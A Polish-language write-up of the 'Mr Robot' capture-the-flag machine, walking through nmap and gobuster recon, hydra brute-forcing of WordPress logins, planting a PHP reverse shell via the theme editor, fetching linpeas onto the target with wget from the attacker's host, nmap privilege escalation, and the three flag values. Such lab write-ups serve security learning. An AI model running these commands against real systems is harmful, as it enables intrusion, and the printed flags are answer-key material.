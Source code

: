 # Mr Robot
## Zadanie

Can you root this Mr. Robot styled machine? This is a virtual machine meant for beginners/intermediate users. There are 3 hidden keys located on the machine, can you find them?

## Kroki

Celem jest odnalezienie 3 kluczy, wystartujmy nasz target i przyjrzyjmy się z czym mamy do czynienia!

Rozpocznijmy od rekonesansu przy użyciu nmap.

![alt text](image.png)

Mamy otwarte 3 porty 22,80,443 wejdźmy więc na stronę HTTP.

![alt text](image-1.png)

Po wejściu na stronę mamy coś w stylu terminala root'a zobaczmy co możemy zrobić. 

Postanowiłem sprawdzić robots.txt, okazało się że jest tam zapisana ciekawa nazwa `key-1-of-3.txt`, po sprawdzeniu `/key-1-of-3.txt` pierwsza flaga jest nasza!

![alt text](image-2.png)
![alt text](image-3.png)

Dodatkowo mamy wymieniony również plik `fsocity.dic`, zapiszmy go wygląda na wordlistę, którą użyjemy później. Zrobiłem enumerację ścieżek używając gobustera i znalazło się pare trafień które przenoszą nas na wordpressowy blog.

![alt text](image-4.png)

Obrałem następującą taktykę, znalazłem stronę przypominania hasła `/wp-login.php?action=lostpassword` następnie używając hydry i wordlisty `fsocity.dic` próbowałem znaleźć username jakiegoś użytkownika.

Ze względu na duży rozmiar listy postanowiłem ją zdeduplikować co skróciło ją 80-krotnie.
`sort -o fsocity.dic -u fsocity.dic`

`hydra -L fsocity.dic 10.10.52.89 -p pass http-post-form "/wp-login.php?action=lostpassword:user_login=^USER^&redirect_to=&wp-submit=Get+New+Password:Invalid username" `

![alt text](image-5.png)

Udało się znaleźć usera o nicku 'Elliot', znając tą informację spróbujmy złamać jego hasło używając tej samej wordlisty!

Użyłem komendy:

`hydra -l Elliot 10.10.113.29 -P fsocity.dic http-post-form "/wp-login.php:log=^USER^&pwd=^PASS^&wp-submit=Log+In&redirect_to=http%3A%2F%2F10.10.113.29%2Fwp-admin%2F&testcookie=1:The password you entered" `

![alt text](image-6.png)

Ok, hasło znalezione. Zalogujmy się więc do WordPressa.
Przeniosło nas do panelu wp-admin.

![alt text](image-7.png)

Wersja to 4.3.1 w tej wersji występuje podatność RCE, pobierzmy więc kod reverse shell.

https://github.com/ivan-sincek/php-reverse-shell/blob/master/src/reverse/php_reverse_shell.php

Kod musimy wkleić w edycji naszego motywu `/wp-admin/theme-editor.php?file=comments.php&theme=twentyfifteen`
Gdy go umieścimy uruchamiamy nasłuchiwanie netcata na wybrany port przechodzimy do `/wp-content` wtedy nasz reverse shell powinien "załapać".

![alt text](image-8.png)
![alt text](image-9.png)

Nawigujemy do pulpitu i próbujemy otworzyć `key-2-of-3.txt`, niestety bezskutecznie, pod spodem mamy plik `password.raw-md5` zawiera on shashowane credentiale do naszego konta więc przy pomocy crackstation.net odszyfrowujemy je.

![alt text](image-10.png)
![alt text](image-11.png)

Gdy już je mamy przechodzimy do połączenia przez SSH, udało nam się połączyć odczytujemy z ~ naszą flagę i mamy kolejną do kolekcji!

![alt text](image-12.png)
![alt text](image-13.png)

Czas na ostatnią flagę root'a przejdźmy do folderu `/tmp` i ściągnijmy przy pomocy **wget** kopie skryptu `linpeas.sh`

https://github.com/peass-ng/PEASS-ng/releases/tag/20251001-67326308

W tym celu w naszej konsoli przechodzimy do folderu w którym mamy `linpeas.sh` i uruchamiamy polecenie `python3 -m http.server 8000`, potem w shellu targetu uruchamiamy komendę `wget http://<YOUR_IP>:8000/linpeas.sh`. Następnie dajemy uprawnienia `chmod +x linpeas.sh` i uruchamiamy skrypt `./linpeash.sh`. Linpeas nie zwrócił nic co by zadziałało więc posłużymy się komendą na wyszukanie binów z dostępem dla nas a następnie za pomocą GTFObins.github.io znajdziemy interesujący nas bypass. W tym przypadku kluczem był nmap :)

![alt text](image-14.png)

I tym sposobem zdobywamy ostatnią flagę!

## Flaga

Klucz 1: **073403c8a58a1f80d943455fb30724b9**

Klucz 2: **822c73956184f694993bede3eb39f959**

Klucz 3: **04787ddef27c3dee1ee161b21670b4e4**

